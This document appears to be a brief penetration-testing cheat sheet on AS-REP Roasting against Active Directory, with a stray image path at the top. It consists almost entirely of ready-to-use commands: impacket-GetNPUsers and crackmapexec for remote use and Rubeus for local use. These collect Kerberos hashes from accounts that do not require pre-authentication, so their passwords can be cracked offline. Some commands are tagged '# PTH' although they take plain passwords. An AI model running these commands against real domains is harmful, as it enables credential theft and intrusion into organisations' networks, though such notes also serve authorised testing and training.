 # AS-REP Roasting
#### Remote
```bash
impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -usersfile <USERLIST>

impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request # PTH

crackmapexec ldap <IP> --kdcHost <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT> # PTH
```

#### Local
```bash
Rubeus.exe asreproast /nowrap
```